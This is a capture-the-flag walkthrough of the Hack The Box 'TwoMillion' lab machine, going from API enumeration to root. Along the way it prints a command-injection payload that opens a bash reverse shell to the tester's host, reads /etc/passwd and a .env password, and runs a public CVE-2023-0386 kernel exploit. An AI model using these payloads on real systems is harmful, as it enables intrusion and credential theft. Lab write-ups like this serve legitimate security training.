

## Reconnaissance

First thing first we need to enumerate the services with nmap tools. Here’s the scan results

```bash
# Nmap 7.95 scan initiated Wed Oct  8 20:36:34 2025 as: /usr/lib/nmap/nmap -sVC -p- -Pn --min-rate=1000 -T4 -oA nmap_results 10.129.58.176
Warning: 10.129.28.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.28.201
Host is up (0.024s latency).
Not shown: 65416 closed tcp ports (reset), 117 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  8 20:37:52 2025 -- 1 IP address (1 host up) scanned in 77.47 seconds

```

### Analyzing scan result

- Port 22, running service SSH with OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
- Port 80, running service http with nginx and probably redirecting request to http://2million.htb/

### Adding host into /etc/hosts file

We need to add the domain 2million.htb into our hosts file

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/TwoMillion]
└─$ sudo nano /etc/hosts        
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/TwoMillion]
└─$ cat /etc/hosts      
127.0.0.1       localhost
127.0.1.1       hackbox

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.28.201 2million.htb
```

After that we can access the website http://2million.htb/

### Accessing the website



This is old HTB website. In the Join menu we can become member, so we need to make account first and then login into the member dashboard.


When we click Join HTB, we need to input Invite Code. I’m using burpsuite to get all the requests and found something interesting! There is some javascript file that obfuscated. We need to deobfuscate it.


After we deobfuscate the code, it will return something like this

```jsx
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

There’s /api/v1/invite/how/to/generate to generate the invite code. So this is so obvious, the data is encrypted with ROT13 or also known as Caesar Ciphers


The plaintext says we need to make a POST request to api /api/v4/invite/generate


The API endpoint is actually  /api/v1/invite/generate. so we got the code but it encoded with base64 we just need to decode it.


Finally we got the invite code!

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/TwoMillion]
└─$ echo "VVIyMDEtNkU5WVgtSDkyUUotWUFCWkQ=" | base64 -d
UR201-6E9YX-H92QJ-YABZD 
```

Just continue to register and then login. We successfully enter the dashboard.


There’s Access menu, I think we can exploit this. At this point I’m stuck.


## Foothold

I need to explore the api endpoint more, maybe I can get something. There’s list api, but we only focus on /api/v1/admin.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/TwoMillion]
└─$ curl http://2million.htb/api/v1 -H 'Cookie: PHPSESSID=33smdkq5udtjjktlrkgvn96p4f' | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   800    0   800    0     0  13015      0 --:--:-- --:--:-- --:--:-- 13114
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

In the /api/v1/admin/vpn/generate we can generate VPN for specific user, so we just need to generate admin’s VPN. But first we need to update our user to become admin by using this endpoint /api/v1/admin/settings/update.


And then we made it to become admin, so we just need to generate other user VPN’s.


Actually I was wrong, we don’t need to download other’s VPN to gain access. There’s command injection vulnerability that we can exploit. The command injection just simply add ; after username and then use # to ignore anything after the payload executed.


We just need to revshell it! I’m using this payload.

```bash
{
"username": "admin;bash -c 'bash -i >& /dev/tcp/10.10.14.58/7777 0>&1' #"
}
```

And then we got it!

```bash
└─$ nc -lnvp 7777                        
listening on [any] 7777 ...
connect to [10.10.14.58] from (UNKNOWN) [10.129.28.201] 41976
bash: cannot set terminal process group (1099): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 

```

There’s admin user so we need to escalate it as admin first

```bash
www-data@2million:~/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
www-data@2million:~/html$ 

```

I’ve got the creds for admin in .env file

```bash
www-data@2million:~/html$ ls -lah
ls -lah
total 56K
drwxr-xr-x 10 root root 4.0K Oct  8 15:20 .
drwxr-xr-x  3 root root 4.0K Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1.3K Jun  2  2023 Database.php
-rw-r--r--  1 root root 2.8K Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4.0K Oct  8 15:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6  2023 assets
drwxr-xr-x  2 root root 4.0K Jun  6  2023 controllers
drwxr-xr-x  5 root root 4.0K Jun  6  2023 css
drwxr-xr-x  2 root root 4.0K Jun  6  2023 fonts
drwxr-xr-x  2 root root 4.0K Jun  6  2023 images
-rw-r--r--  1 root root 2.7K Jun  2  2023 index.php
drwxr-xr-x  3 root root 4.0K Jun  6  2023 js
drwxr-xr-x  2 root root 4.0K Jun  6  2023 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ 

```

We just need to fire up ssh with the creds given. And we got the user flag

```bash
admin@2million:~$ cat user.txt 
44a1d652068bdc99020748f803b45839
```

## Privilege Escalation

Let's check the email received. It might contain valuable information for privilege escalation to root.

```bash
You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```

Simply go to /var/mail/$USER to check received email.

```bash
admin@2million:~$ cd /var/mail
admin@2million:/var/mail$ ls
admin
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. 
While we're partially down, can you also upgrade the OS on our web host? 
There have been a few serious Linux kernel CVEs already this year. 
That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

```

Maybe we can use something related to OverlayFS / FUSE to gain root access. I found this articel

[https://www.vicarius.io/vsociety/posts/cve-2023-0386-a-linux-kernel-bug-in-overlayfs](https://www.vicarius.io/vsociety/posts/cve-2023-0386-a-linux-kernel-bug-in-overlayfs)

The vulnerability in OverlayFS arises when different user namespaces are involved, and it can lead to privilege escalation. In that articel we can see there’s POC exploit [https://github.com/sxlmnwb/CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386) we can use it to gain root access. Let’s give it try.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/TwoMillion]
└─$ wget https://github.com/sxlmnwb/CVE-2023-0386/archive/refs/heads/master.zip 
└─$ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.28.201 - - [08/Oct/2025 22:41:44] "GET /master.zip HTTP/1.1" 200 -

```

And then get the file into the box. we need to run make all after unzipping the exploit

```bash
admin@2million:~$ wget http://10.10.14.58:8000/master.zip
--2025-10-08 15:41:44--  http://10.10.14.58:8000/master.zip
Connecting to 10.10.14.58:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11579 (11K) [application/zip]
Saving to: ‘master.zip’

master.zip                100%[=====================================>]  11.31K  --.-KB/s    in 0s      

2025-10-08 15:41:44 (114 MB/s) - ‘master.zip’ saved [11579/11579]

admin@2million:~$ ls
master.zip  tmp  user.txt
admin@2million:~$ unzip master.zip 
Archive:  master.zip
737d8f4af6b18123443be2aed97ade5dc3757e63
   creating: CVE-2023-0386-master/
  inflating: CVE-2023-0386-master/Makefile  
  inflating: CVE-2023-0386-master/README.md  
  inflating: CVE-2023-0386-master/exp.c  
  inflating: CVE-2023-0386-master/fuse.c  
  inflating: CVE-2023-0386-master/getshell.c  
   creating: CVE-2023-0386-master/ovlcap/
 extracting: CVE-2023-0386-master/ovlcap/.gitkeep  
   creating: CVE-2023-0386-master/test/
  inflating: CVE-2023-0386-master/test/fuse_test.c  
  inflating: CVE-2023-0386-master/test/mnt  
  inflating: CVE-2023-0386-master/test/mnt.c  
admin@2million:~$ ls
CVE-2023-0386-master  master.zip  tmp  user.txt
admin@2million:~$ cd CVE-2023-0386-master/
admin@2million:~/CVE-2023-0386-master$ make all
```

And then just follow the [README.md](http://README.md) instruction to get the root! So I forgot to move the exploit to /tmp folder. Move it first and then run the exploit

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601

==== OTHER TERMINAL ====
admin@2million:/tmp/CVE-2023-0386-master$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct  8 15:47 .
drwxrwxr-x 6 root   root     4096 Oct  8 15:46 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-master# 

```

We got it! here’s the root flag

```bash
root@2million:/root# cat root.txt
33c76274c01611bb6587e247b8bc768c

```

We got easter egg message with URL encoded. Just decode it with burp or cyberchef. and then decode it again to hex.

```bash
root@2million:/root# cat thank_you.json 
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```

Then we need to decode the base64 and then xor it with the key  HackTheBox

```bash
{"encryption": "xor", "encrpytion_key": "HackTheBox", "encoding": "base64", "data": "DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHzsdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGDD0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA08QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELEgNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZPAgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsOADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWgIDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDEliChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQRcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFLSGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxRDDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRSoODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsODR89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUqDg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBAYdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQYUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGSzoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0YFC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4WBx1iOx0pDA=="}
```


```bash
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```

## Flags

```bash
User Flag : 44a1d652068bdc99020748f803b45839
Root Flag : 33c76274c01611bb6587e247b8bc768c
```